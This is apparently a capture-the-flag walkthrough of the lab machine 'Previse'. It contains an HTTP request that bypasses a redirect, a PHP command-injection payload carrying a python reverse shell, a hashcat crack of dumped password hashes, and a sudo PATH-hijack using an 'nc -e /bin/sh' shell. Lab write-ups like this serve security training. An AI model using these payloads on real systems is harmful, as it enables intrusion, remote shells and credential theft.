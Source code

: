 ![PREVISE](banner.png)

```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-12 11:05 EDT
Nmap scan report for 10.129.116.118
Host is up (0.034s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
## Foothold

Basic Enumeration with dirbuster brought us to the `nav.php`. We can't create a new account by just pressing `CREATE ACCOUNT` because we just get a redirect to login.php.
However if we intercept the request through Burpsuite we can actually see the `accounts.php`.

![burpsuite.png](burpsuite.png)

So let's create a new account by sending a POST with the body `username=test123&password=test123&confirm=test123` to it like this:
```
POST /accounts.php HTTP/1.1

Host: previse.htb

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.114 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

Referer: http://previse.htb/nav.php

Accept-Encoding: gzip, deflate

Accept-Language: en-US,en;q=0.9

Connection: close

Content-Type: application/x-www-form-urlencoded

Content-Length: 49



username=test123&password=test123&confirm=test123
```

![create_account.png](create_account.png)

We can now login to the `Previse File Hosting` with our new account and password: `test123:test123`.

Browsing the webpage we found a `siteBackup.zip` which revealed mysql credentials.

`config.php` from `siteBackup.zip`:
```php
<?php

function connectDB(){
    $host = 'localhost';
    $user = 'root';
    $passwd = 'mySQL_p@ssw0rd!:)';
    $db = 'previse';
    $mycon = new mysqli($host, $user, $passwd, $db);
    return $mycon;
}

?>
```
Browsing the webpage further, we found an interesting functionality. We can request logs while sending a delimiter paramter with it.
Since we have a site backup let's have a look at the `logs.php`:

```php
<?php
session_start();
if (!isset($_SESSION['user'])) {
    header('Location: login.php');
    exit;
}
?>

<?php
if (!$_SERVER['REQUEST_METHOD'] == 'POST') {
    header('Location: login.php');
    exit;
}

/////////////////////////////////////////////////////////////////////////////////////
//I tried really hard to parse the log delims in PHP, but python was SO MUCH EASIER//
/////////////////////////////////////////////////////////////////////////////////////

$output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");
echo $output;

$filepath = "/var/www/out.log";
$filename = "out.log";    

if(file_exists($filepath)) {
    header('Content-Description: File Transfer');
    header('Content-Type: application/octet-stream');
    header('Content-Disposition: attachment; filename="'.basename($filepath).'"');
    header('Expires: 0');
    header('Cache-Control: must-revalidate');
    header('Pragma: public');
    header('Content-Length: ' . filesize($filepath));
    ob_clean(); // Discard data in the output buffer
    flush(); // Flush system headers
    readfile($filepath);
    die();
} else {
    http_response_code(404);
    die();
} 
?>
```

We are especially interested in this line 19:

```php
$output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");
```
## User

We have a php exec with user input. We can exploit this by simply sending a semicolon followed by bash commands.
So we intercept the request and change the delim paramter to this:

```
delim=comma;/usr/bin/python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.67",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

Since we are on the machine now we can make use of the mysql credentials from earlier:
```
$ mysql -u 'root' -h 'localhost' -p
mysql -u 'root' -h 'localhost' -p
Enter password: mySQL_p@ssw0rd!:)


mysql> use previse
mysql> select * from accounts;
select * from accounts;
+----+----------+------------------------------------+---------------------+
| id | username | password                           | created_at          |
+----+----------+------------------------------------+---------------------+
|  1 | m4lwhere | $1$🧂llol$DQpmdvnb7EeuO6UaqRItf. | 2021-05-27 18:18:36 |
|  2 | test123  | $1$🧂llol$sP8qi2I.K6urjPuzdGizl1 | 2021-08-12 15:30:55 |
+----+----------+------------------------------------+---------------------+
```

Running hashcat on the password from m4lwhere:
```
hashcat -m 500 -a 0 '$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.' ~/Desktop/rockyou.txt
```
gives us the password:
```
$1$:salt:llol$DQpmdvnb7EeuO6UaqRItf.:ilovecody112235!
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: md5crypt, MD5 (Unix), Cisco-IOS $1$ (MD5)
Hash.Target......: $1$:salt:llol$DQpmdvnb7EeuO6UaqRItf.
Time.Started.....: Thu Aug 12 13:19:32 2021 (4 mins, 24 secs)
Time.Estimated...: Thu Aug 12 13:23:56 2021 (0 secs)
Guess.Base.......: File (/home/kali/Desktop/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    28022 H/s (8.59ms) @ Accel:256 Loops:125 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 7413760/14344385 (51.68%)
Rejected.........: 0/7413760 (0.00%)
Restore.Point....: 7411712/14344385 (51.67%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:875-1000
Candidates.#1....: ilovedeshaun -> ilovechloewegg4everandever

Started: Thu Aug 12 13:19:31 2021
Stopped: Thu Aug 12 13:23:58 2021
```
We can use these credentials to login via ssh and read the user flag.
```bash
ssh m4lwhere@previse.htb
ilovecody112235!
```

## Root

```bash
m4lwhere@previse:~$ sudo -l

User m4lwhere may run the following commands on previse:
    (root) /opt/scripts/access_backup.sh
```

`sudo -l` gives us an interesting file:
```bash
m4lwhere@previse:/opt/scripts$ cat access_backup.sh 
#!/bin/bash

# We always make sure to store logs, we take security SERIOUSLY here

# I know I shouldnt run this as root but I cant figure it out programmatically on my account
# This is configured to run with cron, added to sudo so I can run as needed - we'll fix it later when there's time

gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz
```

Gzip gets called with a relative path so we can manipulate our path like this:
```
export PATH=/home/m4lwhere:$PATH
```
Now we can then just create a new executable file called "gzip" with this content:
```
/bin/bash -c 'nc -e /bin/sh 10.10.14.67 4444'
```
Just run:
```bash
sudo /opt/scripts/access_backup.sh
```
catch it and enjoy.
